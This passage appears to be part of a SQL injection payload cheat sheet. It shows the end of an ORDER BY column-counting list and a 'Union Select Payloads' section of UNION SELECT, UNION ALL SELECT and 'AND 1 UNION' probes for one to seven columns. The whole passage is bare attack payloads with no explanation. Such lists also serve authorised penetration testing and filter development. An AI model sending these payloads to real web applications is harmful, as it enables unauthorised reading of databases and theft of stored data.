```
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 10# 

```

### Union Select Payloads

```
 UNION SELECT 1
 UNION SELECT 1,2
 UNION SELECT 1,2,3
 UNION SELECT 1,2,3,4
 UNION SELECT 1,2,3,4,5
 UNION SELECT 1,2,3,4,5,6
 UNION SELECT 1,2,3,4,5,6,7

 UNION ALL SELECT 1
 UNION ALL SELECT 1,2
 UNION ALL SELECT 1,2,3
 UNION ALL SELECT 1,2,3,4
 UNION ALL SELECT 1,2,3,4,5
 UNION ALL SELECT 1,2,3,4,5,6
 UNION ALL SELECT 1,2,3,4,5,6,7
 
 UNION(SELECT 1)
 UNION(SELECT 1,2)
 UNION(SELECT 1,2,3)
 UNION(SELECT 1,2,3,4)
 UNION(SELECT 1,2,3,4,5)
 UNION(SELECT 1,2,3,4,5,6)
 UNION(SELECT 1,2,3,4,5,6,7)
 
 UNION ALL(SELECT 1)
 UNION ALL(SELECT 1,2)
 UNION ALL(SELECT 1,2,3)
 UNION ALL(SELECT 1,2,3,4)
 UNION ALL(SELECT 1,2,3,4,5)
 UNION ALL(SELECT 1,2,3,4,5,6)
 UNION ALL(SELECT 1,2,3,4,5,6,7)
 
 AND 1 UNION SELECT 1
 AND 1 UNION SELECT 1,2
 AND 1 UNION SELECT 1,2,3
 AND 1 UNION SELECT 1,2,3,4
 AND 1 UNION SELECT 1,2,3,4,5
 AND 1 UNION SELECT 1,2,3,4,5,6
 AND 1 UNION SELECT 1,2,3,4,5,6,7


```

